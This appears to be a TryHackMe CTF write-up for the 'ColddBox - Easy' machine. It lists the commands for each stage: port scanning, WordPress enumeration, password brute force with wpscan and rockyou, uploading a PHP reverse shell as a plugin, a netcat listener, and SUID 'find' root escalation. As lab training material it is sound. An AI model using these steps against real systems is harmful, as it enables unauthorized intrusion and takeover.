 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/coldd-box-easy/","tags":["CTF","write-up","Sensitive_data_exposure","Object_Injection"]}
---
```



---

![Pasted image 20241126163439.png|300](/img/user/attachments/Pasted%20image%2020241126163439.png)

> [!INFO] Info about ColddBox - Easy
>  An easy level machine with multiple ways to escalate privileges. By Hixec.

> [!FAQ]- Hints
> Provide the flag in its encoded format.

---
# Active reconnaissance
## Host discovery
## Port scan
Executing a fast general scan to all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 61
```

---
# Enumeration
Executing a deep scan with common scripts only to ports that we are interested.
```shell
sudo nmap TARGET_IP -sCV -p 80 -oN nmap_enum
```
## OS
Ubuntu
## Port 80 - Apache
80/tcp open  http  **Apache** httpd **2.4.18** ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
http-title: **ColddBox** | One more machine
http-generator: **WordPress 4.1.31**

![Pasted image 20241126181735.png|600](/img/user/attachments/Pasted%20image%2020241126181735.png)
From here we got I couple of possible usernames: *Coldd* and *Sr Mott*

---
# Vulnerability analysis
## Wordpress 4.1.31
Searching vulnerabilities for this version, the most interesting is this but we need acces to the admin panel
![Pasted image 20241126210704.png](/img/user/attachments/Pasted%20image%2020241126210704.png)
Or use wpsscan to detect it
```shell
wpscan --url http://colddbox.thm/ -e vp --api-token="tyfkmo................756ubuyb"
```
We got
![Pasted image 20241127071959.png](/img/user/attachments/Pasted%20image%2020241127071959.png)

---
# Exploitation
## Fuzzing
Executing fuzzing
```shell
wfuzz -c -t 50 --hc=404 --hl=643 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://colddbox.thm/FUZZ
```

I found interesting directories excluding the default.
![Pasted image 20241126175148.png](/img/user/attachments/Pasted%20image%2020241126175148.png)
### Hidden
![Pasted image 20241126181633.png](/img/user/attachments/Pasted%20image%2020241126181633.png)
We got some possible usernames: *Hugo*, *Philip* and *C0ldd* (note the number zero instead of the letter O)
If we validate them in the default login, all of them exist.
## Brute Force to the login page
Use Wpscan to find a password of the most probable admin user based on the info of hidden page. **C0ldd**
```shell
wpscan --url http://colddbox.thm/ --passwords /usr/share/wordlists/rockyou.txt --usernames C0ldd
```
![Pasted image 20241126203642.png](/img/user/attachments/Pasted%20image%2020241126203642.png)
## Wordpress panel
Login to the admin panel
![Pasted image 20241126203835.png|600](/img/user/attachments/Pasted%20image%2020241126203835.png)
## Admin + PHP File Upload
Now we have access to the admin panel, and we can try the vulnerability from above.
1. Go to Plugins
2. Add new
   ![Pasted image 20241127072633.png|500](/img/user/attachments/Pasted%20image%2020241127072633.png)
3. Upload Plugin
   ![Pasted image 20241127072703.png|500](/img/user/attachments/Pasted%20image%2020241127072703.png)
4. Browser
   ![Pasted image 20241127072748.png|500](/img/user/attachments/Pasted%20image%2020241127072748.png)
5. Select the reverse hell `php` file (`rev_shell_1.php`) (https://www.revshells.com/ `php` Ivan)
   ![Pasted image 20241127072905.png|500](/img/user/attachments/Pasted%20image%2020241127072905.png)
6. Press  `install now`
   ![Pasted image 20241127072924.png|500](/img/user/attachments/Pasted%20image%2020241127072924.png)
   ![Pasted image 20241127073036.png|500](/img/user/attachments/Pasted%20image%2020241127073036.png)
   The installation **fails** but the file has been uploaded
7. Set the listener on the attacker machine, e.g. `rlwrap nc -lnvp 4747`
   ![Pasted image 20241127072956.png](/img/user/attachments/Pasted%20image%2020241127072956.png)
8. Go to the file directory, in this case `http://colddbox.thm/wp-content/uploads/2024/11/rev_shell_1.php` (Change the year and month) and we have a revere shell on the listener with the account which is running the WordPress, in this case `www-data`
   ![Pasted image 20241127073305.png|500](/img/user/attachments/Pasted%20image%2020241127073305.png)

---
# Privilege escalation
## Method 1
Exploting pkexec [[CVE-2021-4034\|CVE-2021-4034]]
##  Method 2
Checking SUID
```shell
find / -type f -perm -u=s -ls 2>/dev/null
```
We have  two posibble ways to escalate.
![Pasted image 20241127074340.png](/img/user/attachments/Pasted%20image%2020241127074340.png)
Lets check `find` with gtfobins
![Pasted image 20241127074547.png](/img/user/attachments/Pasted%20image%2020241127074547.png)
```shell
/usr/bin/find . -exec /bin/sh -p \; -quit
```
![Pasted image 20241127075454.png](/img/user/attachments/Pasted%20image%2020241127075454.png)
Now we are root

Get the user flag
> [!check] User flag
> ![Pasted image 20241127090504.png](/img/user/attachments/Pasted%20image%2020241127090504.png)

Get the root flag
> [!check] Root flag
> ![Pasted image 20241127090558.png](/img/user/attachments/Pasted%20image%2020241127090558.png)